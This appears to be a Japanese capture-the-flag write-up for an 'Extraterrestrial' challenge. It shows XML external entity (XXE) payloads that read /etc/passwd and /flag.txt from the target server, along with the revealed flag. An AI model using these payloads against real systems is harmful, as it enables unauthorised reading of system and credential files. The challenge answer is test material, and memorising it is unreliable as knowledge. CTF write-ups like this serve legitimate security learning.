

# Extraterrestrial

125pt (285 Solves)

```txt
Have you seen any aliens lately? Let us know!

The flag is at the start of the solar system.

Connect here: [url]
```

## 概要



よくわからん入力欄。
`a`とか入力すると`Invalid document end`と怒られる。

問題名からしてXMLを入力するのだろう。

## 解

過去に解いた問題のxmlをコピペしてきて貼り付けたら`/etc/passwd`が抜けた。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY pass SYSTEM "/etc/passwd">
]>
<root>
  <content>&pass;</content>
</root>
```

問題文によると「スタート地点にflagがある」らしい。  
ルートディレクトリ直下で探してると、`flag.txt`があった。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY pass SYSTEM "/flag.txt">
]>
<root>
  <content>&pass;</content>
</root>
```

```txt
array(1) {
  ["pass"]=>
  string(38) "flag{extraterrestrial_extra_entities}
"
}
```
